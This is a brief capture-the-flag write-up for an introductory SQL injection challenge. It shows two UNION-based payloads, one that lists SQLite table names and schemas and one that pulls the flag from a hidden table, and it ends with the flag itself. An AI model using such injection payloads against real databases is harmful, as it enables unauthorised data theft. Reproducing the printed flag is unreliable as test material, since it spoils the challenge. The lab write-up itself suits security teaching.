

Challenge author: t0m7r00z

This challenge introduces SQL Injection.

First: Extract tables names

```'union select 1,name,sql from sqlite_master--```



There's a very interesting table called **s3cret_fl4g** that contains a **flag** column.

Now that we know our target, all that is left is to view it!

```'union select 1,2,flag from s3cret_fl4g--```

*inf{an@th3r_v4Cc1n3_ag41n57_Par@lyS1s}*
